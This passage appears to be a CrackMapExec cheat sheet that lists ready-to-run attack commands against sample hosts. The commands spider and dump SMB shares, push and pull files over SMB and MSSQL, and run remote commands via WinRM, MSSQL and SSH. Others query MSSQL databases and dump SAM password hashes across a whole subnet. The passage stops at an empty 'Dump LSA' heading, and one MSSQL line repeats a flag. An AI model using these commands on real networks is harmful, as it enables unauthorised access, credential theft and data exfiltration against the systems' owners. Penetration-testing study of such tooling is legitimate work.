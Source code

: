 #### List all readable files

```
cme smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus
```

#### Dump all Files

```
cme smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o READ_ONLY=false
```

#### Send Files

```
cme smb 172.16.251.152 -u user -p pass --put-file /tmp/whoami.txt \\Windows\\Temp\\whoami.txt
cme mssql 10.10.10.52 -u admin -p 'm$$ql_S@_P@ssW0rd!' --put-file  --put-file /tmp/users C:\\Windows\\Temp\\whoami.txt
```

#### Get Files

```
cme smb 172.16.251.152 -u user -p pass --get-file  \\Windows\\Temp\\whoami.txt /tmp/whoami.txt
cme mssql 10.10.10.52 -u admin -p 'm$$ql_S@_P@ssW0rd!' --get-file C:\\Windows\\Temp\\whoami.txt /tmp/file
```

#### WinRM

```
cme winrm 192.168.255.131 -u user -p 'password' -X whoami
```

#### MSSQL

```
cme mssql 10.10.10.52 -u admin -p 'm$$ql_S@_P@ssW0rd!' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
cme mssql 10.10.10.59 -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x whoami
```

#### SSH

```
cme ssh 127.0.0.1 -u user -p password -x whoami
```

## Obtaining Credentials

#### Dump SAM

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```

#### Dump LSA
